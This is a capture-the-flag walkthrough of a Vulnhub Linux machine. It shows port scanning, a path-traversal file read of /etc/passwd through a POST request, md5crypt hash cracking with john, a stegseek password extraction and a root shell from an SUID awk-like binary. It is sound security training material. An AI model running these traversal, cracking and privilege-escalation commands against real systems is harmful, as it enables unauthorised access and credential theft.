 
![0445d14e4e2fb7114abb336ec9d8a2cf5ed84566](https://github.com/user-attachments/assets/2fcb4641-5c46-4d88-a820-f1115d958918)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [Ajay Verma](https://www.vulnhub.com/author/ajay-verma,598/)         | [Vulnhub](https://www.vulnhub.com/)     | Medium           | Linux   |

---






- I start with a scan of the open ports,
    
    ```bash
    nmap -p- --open -vvv -sS --min-rate 5000 -Pn 192.168.56.106 -oG scan
    ```
    
    ![image](https://github.com/user-attachments/assets/9689e1d7-ccd4-4a63-84e8-628afb7292a6)

    
- Scanning open ports.
    
    ```bash
    nmap -p80,1337,12320,12321,12322-sCV 192.168.56.106 -oN ports
    ```
    
    ![image 1](https://github.com/user-attachments/assets/4a213661-874a-41e6-9813-7e86503562c6)

    

- I look at what technologies they are using on the two websites.
    
    ```bash
    whatweb http://192.168.56.106/
    whatweb https://192.168.56.106:1337/
    whatweb https://192.168.56.106:12320/
    whatweb https://192.168.56.106:12322/
    ```
    
    ![image 2](https://github.com/user-attachments/assets/eda67d95-2b8a-4311-892a-8cdff5ccc05f)

    

- I access the different web pages to get a first impression of them in case I see something peculiar.
    
    ![image 3](https://github.com/user-attachments/assets/32b0dbc2-74d1-4f32-883a-b61eb81a03a9)

    
    ![image 4](https://github.com/user-attachments/assets/2342a2b8-b583-458c-a4fe-1053a8f1fd4f)

    
    ![image 5](https://github.com/user-attachments/assets/82a1277b-0b2c-487f-9bb4-1fb46f5250e7)

    
    ![image 6](https://github.com/user-attachments/assets/eefdc26f-63ab-40f2-a4d4-037c9e8e3e08)

    

- I check again the port scan and I see for `12322` a `robots.txt`, I take a look at it
    
    ![image 7](https://github.com/user-attachments/assets/562d7a16-cfc2-4f75-9d7e-56539f04c832)

    
    ![image 8](https://github.com/user-attachments/assets/4382ce2b-c4f6-4f0f-a21e-b8247927da89)

    
- When entering `file_view.php` it tells me that there is a parameter with which we can possibly read internal file (`LFI`)
    
    ![image 9](https://github.com/user-attachments/assets/cc539d4e-eef9-4598-96da-b097fa9a5c85)

    

- After trying different ways to enter the parameter, I find that we should indicate it in the body of a POST request
    
    ```bash
    curl -k -x POST "https://192.168.56.106/file_view.php" -d "../../../../../../../../../../../etc/hosts" 2>/dev/null
    curl -k -x POST "https://192.168.56.106/file_view.php" -d "../../../../../../../../../../../etc/passwd" 2>/dev/null | grep -v "/bin/false" | grep -v "nolog"
    ```
    
    ![image 10](https://github.com/user-attachments/assets/cd701ea3-ae74-4466-91be-193c86b075c3)

    
    ![image 11](https://github.com/user-attachments/assets/72c77b2b-b966-4eed-8f5e-aa6213f37eae)

    

- I find two users, `n30` and `testuser`. I try to access through port `12320` using the same user and password. I manage to login with `testuser`
    
    ![image 12](https://github.com/user-attachments/assets/2e7d7c58-a95c-47d5-8d62-f5d16ff7f35e)

    

- I check the files inside the directory of the web pages and find a possible credential.
    
    ![image 13](https://github.com/user-attachments/assets/13dc8ed7-ef81-4f0c-9f48-129b789f8c89)

    

- I use a page to see what kind of encryption this string might be.
  
    [Decrypt MD5, SHA1, MySQL, NTLM, SHA256, MD5 Email, SHA256 Email, SHA512, Wordpress, Bcrypt hashes for free online](https://hashes.com/en/decrypt/hash)
    
    ![image 14](https://github.com/user-attachments/assets/f3b30f2a-d163-40c3-8e25-1c7bb182efe9)

    

- I try to break the password with `john` and using a `md5crypt` encryption format. It gives me a possible password
    
    ```bash
    john -w /usr/share/wordlist/rockyou.txt hash --format=md5crypt
    ```
    
    ![image 15](https://github.com/user-attachments/assets/59df5d80-2421-4229-9a91-9f78c56f4d4a)

    
- I use the credentials found to access the port `1337` web page. At first glance I don't see anything interesting but on reviewing the source code I find a comment referring to an image.
    
    ![image 16](https://github.com/user-attachments/assets/33491752-eae8-4a3d-9ee8-a40c19ac7b94)

    
    ![image 17](https://github.com/user-attachments/assets/237322b2-31f3-42be-b8cc-c5bd6faeb121)

    

- I set up a server with `python` on port `8000` to download the image to my machine.
    
    ```bash
    python3 -m http.server
    wget https://192.168.56.106:8000/h1dd3n.jpg
    ```
    
    ![image 18](https://github.com/user-attachments/assets/278fe943-4ee7-40b3-8b23-b75e99bfe008)

    
- I try to look at the text strings in the photo but find nothing interesting so I try `stegseek` and get a possible password.
    
    ```bash
    stegseek h1dd3n.jpg
    ```
    
    ![image 19](https://github.com/user-attachments/assets/f2646e90-48c2-4ad9-9f97-eee324f16aee)

    
- I use the password with the user `n30` and I manage to pivot to that user.
    
    ![image 20](https://github.com/user-attachments/assets/8d6e0f8e-86f7-40b4-9cf4-7a5eef0351f7)

    
- I check the bash history of this user and I find a strange command, I see that he has `SUID` permission.
    
    ![image 21](https://github.com/user-attachments/assets/bb219458-2bcc-497a-bdc1-073519c468f0)

    
- I run it and become root
    
    ```bash
    /usr/bin/morpheus 'BEGIN {system("/bin/sh")}'
    ```
    
    ![image 22](https://github.com/user-attachments/assets/432c4f3c-105b-4122-a549-10fef49ba60d)
